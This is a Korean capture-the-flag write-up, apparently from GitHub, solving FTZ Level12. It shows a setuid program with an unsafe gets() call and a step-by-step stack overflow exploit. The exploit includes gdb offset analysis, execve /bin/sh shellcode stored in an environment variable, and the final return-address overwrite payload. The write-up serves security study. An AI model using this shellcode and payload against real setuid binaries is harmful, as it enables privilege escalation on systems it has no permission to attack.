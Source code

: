 # FTZ Level12

#### ID : level12 PW: it is like this
<br>

**먼저 ```ls -l```을 이용해 어떤 파일이 있는지 살펴보자**<br> 
attackme 프로그램에 level13의 권한으로 setuid가 걸려있는 것을 확인할 수 있다.<br><br>
우선 hint의 내용을 보자<br>
```cat hint```<br>
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
      char str[256];                  # 256바이트 크기의 문자형 배열
      
      setreuid(3093, 3093);           #level13의 프로세스 ID
      printf("문장을 입력하세요.\n");
      gets(str);                      #gets 함수로 배열 str에 입력을 받음
      printf("%s\n", str);            #입력받은 내용 출력
}
```
```gets``` 함수에서 BOF가 일어날 수 있다!!<br><br>
우리의 목적을 생각해보자.<br>
버퍼에 버퍼크기보다 넘치는 양을 담아 오버플로우를 일으킨 후 ret까지 도달해 ret에 쉘 코드 주소를 넣을 것이다. 
그렇다면..!!!<br>
1. str[256]에서 ret까지의 거리 구하기
2. 환경변수로 쉘 코드 등록하고 위치 찾는 코드를 짜 주소 확인하기
3. ret 위치까지 갈 페이로드 작성하기
4. 작성한 페이로드로 공격해 쉘 획득하기!!

**attackme 코드를 디버깅해야하기 때문에 tmp폴더로 복사하자.**<br>
```cp attackme tmp```<br><br>

**그리고 디버깅을 해보자**<br>
```gdb -q attackme```<br>
```disas main```<br>

<main+3>을 보면 esp에서 0x108만큼 빼고 있다. 여기서 0x108은 10진수로 264이다.<br>
필요한 공간은 str배열의 크기인 256일텐데 왜 264나 자리를 마련했을까?<br>
바로 dummy다! 8byte의 dummy가 존재하는 것이다. ~~(왜 존재할까)~~<br><br>

ret전에 sfp 4바이트가 존재할테니 결론적으로 말하면<br>
**str에서 ret까지의 거리는 총 268byte이다!**<br><br>

자, 2번으로 넘어가자.<br>
**다음과 같이 환경변수를 작성해보자.**쉘 코드는 구글에서 돌아다니는 25byte짜리를 가져왔다. <br>
*(다음에 쉘 코드에 대해 더 공부해봐야겠다....)*<br>
```
export shellcode=$(python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e
\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
```

**이제 쉘 코드의 주소를 알아보자**<br>
```vi shell.c``` vi로 쉘 주소 알아내는 코드를 작성해보자<br>
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[1]){
      printf("%p\n", getenv("shellcode"));
      return 0;
}
```
그리고 만든 c코드를 컴파일 한 후 <br>
```gcc -o shell shell.c```<br>
실행시킨다!<br>
```./shell```<br>
그럼 주소가 떨어진다<br>
필자의 경우 **0xbffffef4**였다.<br>

**이제 페이로드를 작성해보자.**<br>
페이로드는 ```(python -c 'print "A"*268+"\xf4\xfe\xff\xbf";cat)|./attackme```가 될 것이다.<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```(python -c 'print "A"*268+"\xf4\xfe\xff\xbf";cat)|./attackme```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level13 Password is "~~". 라고 나올 것이다!!
